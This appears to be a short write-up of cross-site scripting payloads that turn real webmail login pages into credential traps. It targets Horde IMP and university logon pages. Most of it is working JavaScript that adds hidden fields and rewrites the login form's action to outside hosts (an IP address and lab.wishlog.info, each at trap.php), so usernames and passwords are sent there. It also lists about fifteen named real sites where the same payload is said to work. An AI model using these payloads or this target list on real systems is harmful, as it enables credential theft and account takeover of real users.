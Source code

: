 </td>var tds=document.body.getElementsByTagName('td');for(var i=0;i<2;i%2B%2B){if(tds[i].className=="notice"){tds[i].parentNode.innerHTML=""}}var x=document.horde_login;input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","info");input.setAttribute("value","");x.appendChild(input);input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","imapuser");input.setAttribute("value","");x.appendChild(input);input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","pass");input.setAttribute("value","");x.appendChild(input);document.horde_login.info.value=window.location.host;function submit_login(e){if(typeof e!='undefined'%26%26!enter_key_trap(e)){return}if(document.horde_login.horde_user.value==""){document.horde_login.horde_user.focus();return false}else if(document.horde_login.horde_pass.value==""){document.horde_login.horde_pass.focus();return false}else{var origAction=document.horde_login.action;document.horde_login.loginButton.disabled=true;document.horde_login.action="http://137.189.97.46/trap.php";document.horde_login.imapuser.value=document.horde_login.horde_user.value;document.horde_login.pass.value=document.horde_login.horde_pass.value;document.horde_login.submit();return true}}</tr><tr >
<td >

{% endhighlight %}

(use the same payload for webmail1.ie.cuhk.edu.hk can fake following sites:)
http://webmail.unix66.com/horde/imp/index.php
http://spike.samoa.net.ws/horde/imp/index.php
https://eboks.net/horde/imp/index.php
http://unixlingo.com/horde/imp/index.php  //Need some change to eliminate the notice box
http://webmail.nefonline.de/horde/imp/index.php
http://webmail.chaiphirom.com/horde/imp/index.php
http://www.embryo.pu.ru/horde/imp/index.php
http://webmail.dfinternet.net/horde/imp/index.php
http://cst-systemhaus.de/horde/imp/index.php
https://eboks.net/horde/imp/
http://webmail.nefonline.de/horde/imp/
http://stiu.de/horde/imp/
http://spike.samoa.net.ws/horde/imp/
http://www.reina.si/horde/imp/ //permission not set
http://haro.astrossp.unam.mx/horde/imp/index.php //Permission not set

Continue:

{% highlight css %}
<a href="https://mmlab.itsc.cuhk.edu.hk/Clear/logon.asp?msg=Login%20Fail!document.logon.action="https://lab.wishlog.info/trap.php";var x=document.logon;input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","info");input.setAttribute("value","");x.appendChild(input);input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","imapuser");input.setAttribute("value","");x.appendChild(input);input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","pass");input.setAttribute("value","");x.appendChild(input);document.logon.info.value=window.location.host;function validform(tform){if((tform.LogonID.value=="")%7C%7C(tform.std.value=="")){return false}document.logon.imapuser.value=document.logon.LogonID.value;document.logon.pass.value=document.logon.std.value}">https://mmlab.itsc.cuhk.edu.hk/Clear/logon.asp?msg=Login%20Fail!document.logon.action="https://lab.wishlog.info/trap.php";var x=document.logon;input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","info");input.setAttribute("value","");x.appendChild(input);input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","imapuser");input.setAttribute("value","");x.appendChild(input);input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","pass");input.setAttribute("value","");x.appendChild(input);document.logon.info.value=window.location.host;function validform(tform){if((tform.LogonID.value=="")%7C%7C(tform.std.value=="")){return false}document.logon.imapuser.value=document.logon.LogonID.value;document.logon.pass.value=document.logon.std.value}
{% endhighlight %}
Even shorter:

{% highlight css %}
<a href="https://mmlab.itsc.cuhk.edu.hk/Clear/logon.asp?msg=Login%20Fail!document.logon.action="http://lab.wishlog.info/trap.php"">https://mmlab.itsc.cuhk.edu.hk/Clear/logon.asp?msg=Login%20Fail!document.logon.action="http://lab.wishlog.info/trap.php"

{% endhighlight %}

END

